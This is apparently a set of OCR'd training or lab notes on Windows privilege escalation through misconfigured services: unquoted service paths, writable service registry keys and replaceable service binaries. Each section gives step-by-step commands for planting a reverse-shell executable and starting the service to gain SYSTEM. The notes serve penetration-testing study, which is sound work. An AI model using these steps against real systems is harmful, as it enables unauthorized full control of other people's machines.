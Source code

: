 **Service Escalation: Unquoted Service Paths**
- If you have a service executable which path is not enclosed quotations and contains a space, we can escalate a privileges (only if the vulnerable service is running with SYSTEM privilege level which most of the time it is).
- Query the "unquotedsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME) and that the BINARY_PATH_NAME is unquoted and contains spaces.
	- `sc qc unquotedsvc`
- Using accesschk.exe, note that the BUILTIN\Users group is allowed to write to the C:\Program Files\Unquoted Path Service\ directory:
	- `C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"`
- Copy the reverse.exe executable you created to this directory and rename it Common.exe:
	- `copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"`
- Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
	- `net start unquotedsvc`
- Or,
- Detection
	- PowerUp
		- `...\PowerUp.ps1`
		- `Invoke-AllChecks`
- Create a malicious exe file and deliver to windows.
- Name the exe file as the same where the space if found on the service path and mv exe file.
- Example, if the path is `C:\Program File\Unquoted Path\Common Path\testservice.exe`
- We should name the malicious payload with Common.exe and move it under Coomon Path directory.
- Start the service: `sc start unquotedsvc`
- More Info: https://vk9-sec.com/privilege-escalation-unquoted-service-path-windows/
- Even More on: https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae

**Service Escalation: Weak Registry Permission**
- Detection
	- Query the "regsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).
		- `sc qc regsvc`
	- Using accesschk.exe, note that the registry entry for the regsvc service is writable by the "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users):
		- `C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc`
	- Or,
	- Open powershell prompt and type: `Get-Acl hklm:\System\CurrentControlSet\services\regsvc | fl`
	- Notice that the output suggests that user belong to "NT AUTHORITY\INTERACTIVE" has "FullControl" permission over the registry key.
	- If Authenticated Users or NT AUTHORITY/INTERACTIVE have FullControl in any of the services, in that case, you can change the binary that is going to be executed by the service.
- Exploitation
	- Modify the `ImagePath` key of the registry to your payload path and restart the service.
		- ` reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\Temp\shell.exe /f`
	- `sc start regsvc`
- More on: https://infosecwriteups.com/privilege-escalation-in-windows-380bee3a2842
- Detailed on: https://systemweakness.com/windows-privilege-escalation-weak-registry-permissions-9060c1ca7c10

## Service Escalation: Insecure Service Executables
- Query the "filepermsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).
	- `sc qc filepermsvc`
- Using accesschk.exe, note that the service binary (BINARY_PATH_NAME) file is writable by everyone:
	- `C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"`
- Copy the reverse.exe executable you created and replace the filepermservice.exe with it:
	- `copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y`
- Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges: